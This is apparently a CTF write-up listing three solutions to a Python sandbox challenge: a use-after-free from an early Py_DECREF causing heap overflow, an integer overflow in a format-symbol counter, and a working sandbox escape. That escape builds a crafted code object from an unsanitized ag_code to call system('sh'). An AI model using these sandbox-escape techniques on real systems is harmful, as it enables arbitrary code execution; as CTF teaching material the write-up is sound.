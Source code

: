 # Solutions
## Author solution
The intended solution was to use the UAF on line 98
```c
        char *repr = PyUnicode_AsUTF8(curr);
        Py_DECREF(curr);
```
If the string `curr` only had one reference, the call to `Py_DECREF` would free it. `add_string` could then subsequently call `strlen`, `realloc` and `strcpy`.

To actually use the UAF, you could create a subinstance of `str`, which places the actual data contents separately, which means that when the data is freed, the first 8 bytes are replaced with a pointer. The `strlen` call will then return 6, but after the `realloc` the string will be bigger, leading to heap overflow.

## Solution by @UDP
You could create a 4 GB sized format string like `'{}'*0x80000000` which would overflow the counter in `count_symbols`, leading to a count of 0. This could be used to overflow the arguments tuple and call `PyObject_Str` on a fake object.

## Solution by @Lyndon
`Maple Bacon` realized that while other frames were sanitized in the sandbox, `ag_code` was not, which could be used to create an arbitrary code object and execute it.

```py
Test = type('test', (object, ), {'__aiter__': lambda self: self, '__anext__': None})
code = (a async for a in Test()).ag_code
code = code.replace(
    co_argcount=0,
    co_code=b'd\x01j\x00j\x01\xa0\x02\xa1\x00D\x00]\x0f}\x00|\x00j\x03d\x02k\x02r\x15|\x00j\x04j\x05d\x03\x19\x00d\x04\x83\x01\x01\x00q\x06d\x00S\x00',
    co_consts=(None, (), '_wrap_close', 'system', 'sh'),
    co_names=('__class__', '__base__', '__subclasses__', '__name__', '__init__', '__globals__'),
    co_nlocals=1,
    co_varnames=('cls',)
)
type(lambda: 0)(code, {})().asend(None).send(None)
```